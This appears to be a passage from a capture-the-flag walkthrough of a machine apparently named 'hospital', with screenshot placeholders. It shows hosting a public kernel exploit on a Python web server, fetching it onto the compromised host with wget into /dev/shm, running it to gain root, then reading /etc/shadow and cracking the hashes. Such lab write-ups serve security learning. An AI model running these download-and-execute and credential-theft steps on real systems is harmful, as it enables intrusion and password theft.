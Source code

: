 ![[Pasted image 20240505153102.png]]

it says it works "between version v.5.14 and v.6.6"

So let's try this exploit, Go to release page and copy the payload:

![[Pasted image 20240505153350.png]]

then into the terminal:

> mkdir www -> cd www -> wget $link_copied

![[Pasted image 20240505153733.png]]

> python3 -m http.server  (should be listen on port 8000)


-> return to the previous terminal (where you are inside the system) and run the following command:

> cd /dev/shm -> wget $yourip:$pythonserverPORT/exploit

![[Pasted image 20240505154103.png]]

add execute permission to the file:

> chmod +x ./exploit

###  Verify if the exploit works and if is stable:

> ./exploit

And we're root:

![[Pasted image 20240505154451.png]]

Now as root what we can do? Well firslty get the shadows files:

> cat /etc/shadow

![[Pasted image 20240505154846.png]]

But we only want the hashes  with the '$' because are from PHP:

So we grep all the hashes in that file that has the "$":

> cat /etc/shadow | grep '\\$'

We found two.. but one has a strange hash encryption.. so it might not supported for hashcat:

![[Pasted image 20240505155541.png]]

So just copy it and save it to a file:

> vi hashes/hospital.shadow -> put the hash and save.

and crack it:

![[Pasted image 20240505160442.png]]
